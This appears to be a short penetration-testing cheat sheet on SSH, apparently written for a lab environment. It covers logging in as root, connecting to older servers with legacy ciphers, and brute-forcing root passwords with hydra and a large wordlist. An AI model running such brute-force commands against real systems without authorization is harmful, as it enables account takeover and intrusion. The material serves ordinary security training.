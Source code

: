 ## SSH Penetration Testing

### Login to SSH
`ssh root@10.11.1.140`

### If older box or SSH won't connect due to key exchange
`ssh <ip> -oKexAlgorithms=+<key-type> -c <cipher-type>`

### Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4
```

### Close SSH connection
`~.`
